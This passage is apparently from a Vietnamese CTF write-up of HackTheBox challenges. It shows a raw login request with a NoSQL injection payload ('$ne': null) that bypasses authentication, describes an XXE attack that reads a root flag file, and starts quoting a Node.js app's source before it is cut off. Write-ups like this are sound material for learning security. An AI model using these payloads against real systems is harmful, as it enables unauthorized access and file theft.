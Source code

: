 ![image](https://hackmd.io/_uploads/r11LhLJI0.png)

```
POST /login HTTP/1.1
Host: 94.237.63.201:41731
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 46
Origin: http://94.237.63.201:41731
Connection: close
Referer: http://94.237.63.201:41731/
Upgrade-Insecure-Requests: 1
Priority: u=1

{"email":{"$ne":null},"password":{"$ne":null}}
```

flag : `HTB{s4y_h1_t0_th3_c4andy_v4u1t!}`

## Jailbreak

- Chall đơn giản trong HTB-Business dính vul XXE:

![image](https://hackmd.io/_uploads/B1FMTU1UC.png)

- Quan sát qua chỉ có chức năng update-firmware là gửi api:

![image](https://hackmd.io/_uploads/BJpETU1IA.png)

![image](https://hackmd.io/_uploads/BJJ868kI0.png)

- Ta lập tức thử xxe để lấy flag.txt ở root:

![image](https://hackmd.io/_uploads/ByI9TIJL0.png)


![image](https://hackmd.io/_uploads/HkKqT8kUA.png)

flag : `HTB{bi0m3tric_l0cks_4nd_fl1ck3r1ng_l1ght5}`

## Cursed Secret Party

- Một chall với source code nodejs:

```
const express = require('express');
const app = express();
const cookieParser = require('cookie-parser');
const bodyParser = require('body-parser');
const nunjucks = require('nunjucks');
const routes = require('./routes');
const Database = require('./database');

const db = new Database('party.db');

app.use(bodyParser.urlencoded({ extended: false }));
app.use(express.json());
app.use(cookieParser());

app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
```